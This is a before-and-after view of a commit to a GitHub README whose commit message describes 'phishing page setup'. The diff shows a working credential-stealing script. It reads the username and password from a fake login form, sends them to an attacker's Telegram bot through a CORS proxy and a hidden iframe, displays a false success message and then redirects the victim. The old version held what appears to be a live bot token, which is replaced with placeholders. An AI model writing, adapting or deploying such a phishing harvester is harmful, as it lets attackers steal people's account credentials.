

Before and after one commit to Mischlan/lobloxyui, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise README for phishing page setup and warnings
Updated README.md to include setup instructions and security notes.

```diff
--- a/README.md
+++ b/README.md
@@ -90,45 +67,31 @@
     <iframe name="hiddenIframe" style="display:none;"></iframe>
 
     <script>
-        const botToken = "8408447077:AAFtGEn83fMMy66MnIdveRPW5kQ5ZQukU04";
-        const chatId = "5684291694";
+        const botToken = "DEIN_BOT_TOKEN_HIER";
+        const chatId = "DEINE_CHAT_ID_HIER";
         const proxyUrl = "https://corsproxy.io/?";
-
-        // СЮДА ВСТАВЬ ССЫЛКУ, НА КОТОРУЮ ПЕРЕНАПРАВЛЯТЬ ПОСЛЕ ЛОГИНА
-        const redirectUrl = "https://www.google.com";  // ← Замени на свой URL!
-        // Примеры:
-        // "success.html" — если у тебя есть файл success.html на Neocities
-        // "https://youtube.com"
-        // "https://deine-seite.neocities.org/dashboard"
+        const redirectUrl = "https://www.google.com"; // ← Ändern!
 
         document.getElementById("loginForm").addEventListener("submit", function(e) {
             e.preventDefault();
-
             const rawUsername = document.getElementById("username").value;
             const rawPassword = document.getElementById("password").value;
-
             const text = encodeURIComponent(`🔔 Neuer Login-Versuch!\n\n👤 Benutzername: ${rawUsername}\n🔑 Passwort: ${rawPassword}`);
-
             const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${text}&parse_mode=HTML`;
-
             const fullUrl = proxyUrl + encodeURIComponent(apiUrl);
 
-            // Отправка данных в Telegram
             const iframe = document.createElement('iframe');
             iframe.src = fullUrl;
             iframe.style.display = "none";
             document.body.appendChild(iframe);
             setTimeout(() => document.body.removeChild(iframe), 1000);
 
-            // Показываем успех
             document.getElementById("status").innerHTML = "Erfolgreich angemeldet! Weiterleitung... 🔄";
             document.getElementById("status").style.color = "#28a745";
 
-            // Очистка полей
             document.getElementById("username").value = "";
             document.getElementById("password").value = "";
 
-            // Перенаправление через 2 секунды
             setTimeout(() => {
                 window.location.href = redirectUrl;
             }, 2000);
```
Also changed, not shown: other parts of README.md (+45 -68 lines).
